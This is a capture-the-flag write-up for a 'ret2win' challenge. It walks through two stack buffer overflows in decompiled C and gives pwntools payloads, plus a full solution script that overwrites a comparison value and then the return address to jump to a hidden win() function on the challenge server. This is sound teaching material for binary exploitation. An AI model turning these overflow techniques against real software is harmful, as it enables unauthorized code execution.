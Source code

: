 # CTF League - ret2win

For this challenge we were provided with a binary file, so our first step was to disassemble in ghidra. Checking strings first, we find a string "./flag.txt" used to print the contentx of a file "flag.txt" in a function `win()`, that is unfortunately not called anywhere in the program... Could be useful later. 

Going back to looking at the programs actual entry point, we find a simple buffer overflow:
```c
char input_buffer [20];
long target_cmp;

target_cmp = 0;
puts("Reply \"yes\" if you remember how to overwrite data");
fflush(stdout);
fgets(input_buffer,0x20,stdin);
if (target_cmp == -0x4522135041103502) {
    part2();
}
```
In this decompiled C, the call to `fgets` will write up to 32 bytes into a 20 byte character array. We can see in the disassembly that these are both contigously stack allocated:

![stack - part1](images/ret2win-stack1.png)

With this in mind, we simply need to fill the input buffers 20 bytes with arbitrary data, followed by the value `-0x4522135041103502`. Unforunately, this is not printable ASCII, so we have to resort to pwntools, which allows us to handle it nicely as a signed hex value.
```py
# payload 1
offset = 20                      
target = -0x4522135041103502     
payload = b"A" * offset + p64(target, signed=True)

p.sendline(payload)
```

## Part 2
This brings us to the part 2 function, which has another, much larger buffer overflow:
```c
char input_buffer [32];
puts(
    ...
)
fflush(stdout);
fgets(input_buffer,100,stdin);
return;
```

In this case we write 100 bytes into a 32 byte buffer, and, conveniently, immediately return. Even more conveniently, we can see in the disassembly that the input buffer is right next to the return address (i.e no stack canary or other things to worry about).  

![stack - part 2](images/ret2win-stack2.png)

The disassembly tells us that the input buffer is located at an  offset -0x28 from the stack, or 40 bytes. This makes sense given it's a 32 byte value, with a little bit of padding before the return address. Because we have a 100 bytes of write room to work with, we have more than enough room to reach this address and write our own return address. 

We can now go back to our `win()` function and find its memory address. Knowing the return address is offset 40 bytes from the  input buffer, we can write 40 bytes of arbitrary characters, followed by the `win()` address, causing the program to return to our `win()` function instead of back to it's actual callee, Granting us the flag

```py
# payload 2
target_addr = 0x00400687
offset2 = 40
payload2 = b"A" * offset2 + p64(target_addr) 

p.sendline(payload2)
p.interactive()
```

## Solution Script
```py
#!/usr/bin/python3

from pwn import *

p = remote("ret2win.ctf-league.damsec.org", 1304)

# payload 1
offset = 20                      
target = -0x4522135041103502     
payload = b"A" * offset + p64(target, signed=True)


# payload 2
target_addr = 0x00400687
offset2 = 40
payload2 = b"A" * offset2 + p64(target_addr) 

p.sendline(payload)
p.recvline()
p.sendline(payload2)
p.interactive()
```
